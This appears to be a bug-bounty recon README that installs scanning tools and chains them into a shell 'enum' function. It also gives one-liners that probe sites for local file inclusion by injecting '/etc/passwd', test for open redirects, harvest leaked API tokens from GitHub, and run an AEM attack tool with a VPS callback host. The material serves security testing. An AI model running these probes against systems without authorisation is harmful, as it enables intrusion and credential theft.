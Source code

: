 # Recon-bugbounty

<a href="https://www.buymeacoffee.com/hackerspider1" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" style="height: 51px !important;width: 217px !important;" ></a>

Simple recon using multiple tools!

If you have Go installed and configured (i.e. with $GOPATH/bin in your $PATH):

### Install Assetfinder

`
▶ go get -u github.com/tomnomnom/assetfinder
`

### Install anew

`
▶ go get -u github.com/tomnomnom/anew
`

### Install Amass

If you have brew installed if not `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"`

`
▶ brew install amass
`

### Install Subfinder

`
▶ go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
`

### Install httpx

`
▶ go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest
`

### Install Aquatone

- Download the [latest release](https://github.com/michenriksen/aquatone/releases/latest) of Aquatone for your operating system.
- Uncompress the zip file and move the aquatone binary to your desired location. You probably want to move it to a location in your $PATH for easier use.

### Install Naabu

`
▶ go install -v github.com/projectdiscovery/naabu/v2/cmd/naabu@latest
`

### Install Subjack

`
▶ go get github.com/haccer/subjack
`

### Install Nuclei

`
▶ go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
`

### Install Jaeles

If you have a Go environment, make sure you have Go >= 1.13 with Go Modules enable and run the following command.

`
▶ GO111MODULE=on go get github.com/jaeles-project/jaeles
`

### Install ffuf

`
▶ go get -u github.com/ffuf/ffuf
`
You can use dirsearch as well.

`
▶ pip3 install dirsearch
`

Download the wordlist `▶ wget "https://raw.githubusercontent.com/hackerspider1/Recon-bugbounty/main/dir.txt"`

# Enum

Add the following in your .zshrc

```
enum(){
        assetfinder -subs-only "$1" | tee -a domains
        cat domains | anew domains.txt
	amass enum -brute -active --passive -d "$1" -o domains -config ~/.config/amass/config.ini
        cat domains | anew domains.txt
        rm domains
        subfinder -silent -d "$1" -o domains
        cat domains | anew domains.txt
        rm domains
        cat domains.txt | httpx -silent | tee -a hosts.txt
        cat domains.txt | aquatone -out screens -scan-timeout 200 -screenshot-timeout 60000 -ports xlarge
        naabu -silent -iL domains.txt > portscan.txt
        subjack -w domains.txt -t 100 -timeout 20 -o subjack_out.txt --ssl -c ~/fingerprints.json
	nuclei -l hosts.txt -t cves/ | tee -a vuln.txt
	jaeles scan -s ~/.jaeles/ -U hosts.txt
	for i in $(cat hosts.txt); do ffuf -u $i/FUZZ -w ~/Documents/bugbounty/wordlist/dir.txt -ac -c -e php,txt,asp,html,aspx; done
}
```

You can add Git-hound ass well in it

- Download the [latest release of GitHound](https://github.com/tillson/git-hound/releases)
- Create a ./config.yml or ~/.githound/config.yml with your GitHub username and password. Optionally, include your 2FA TOTP seed. See [config.example.yml](https://github.com/tillson/git-hound/blob/master/config.example.yml).
- If it's your first time using the account on the system, you may receieve an account verification email.

`echo "guptashubham.com" | git-hound`

add following line in the last of #enum (.zshrc)

```
echo "$1" | git-hound
```

# Aemhack

```
git clone https://github.com/0ang3el/aem-hacker.git
cd aem-hacker
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip
```
Add it to .zshrc

`aemhack (){
python3 ~/aem-directory/aem-hacker/aem_hacker.py -u $1 --host $2
}`

# One-Liner

### LFI

```
lfi () {
gau $1 | gf lfi | qsreplace "/etc/passwd" | xargs -I % -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
}
```

### Open-redirect

```
open-redirect () {
local LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
}
```

### Githound

```
githound(){
echo "$1" | git-hound --dig-files --dig-commits --many-results --regex-file key.txt --results-only > api_tokens.txt"
}
```

# Thanks
#### We use tools which are developed by the following people
[OWASP](https://github.com/OWASP/), [ProjectDiscovery](https://github.com/projectdiscovery/), [Tom Hudson](https://github.com/tomnomnom/)

Let me know one-liner owner would like to give credit!!
